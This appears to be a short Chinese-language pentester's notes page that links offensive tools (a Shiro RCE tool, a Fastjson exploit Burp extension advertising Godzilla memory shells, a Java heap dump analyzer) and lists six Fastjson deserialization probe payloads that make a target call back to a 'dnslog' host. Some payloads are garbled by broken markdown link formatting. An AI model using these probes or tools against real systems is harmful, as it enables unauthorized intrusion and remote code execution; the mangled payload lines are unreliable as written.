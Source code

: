 ## 内存分析
https://github.com/whwlsfb/JDumpSpider


## RCE
### shiro
https://github.com/SummerSec/ShiroAttack2

## Shell
## Burp 拓展
### Fastjson_EXP
[amaz1ngday/fastjson-exp: fastjson利用，支持tomcat、spring回显，哥斯拉内存马；回显利用链为dhcp、ibatis、c3p0。 (github.com)](https://github.com/amaz1ngday/fastjson-exp)

-  `{"@type":"java.net.Inet4Address","val":"dnslog"}`
-  `{"@type":"java.net.Inet6Address","val":"dnslog"}`
-  `{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}`
-  `{{"@type":"java.net.URL","val":"[http://dnslog"}:0](http://dnslog"}`
-  `{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"[http://dnslog"}}""}`
-  `Set[{"@type":"java.net.URL","val":"http://dnslog"}]`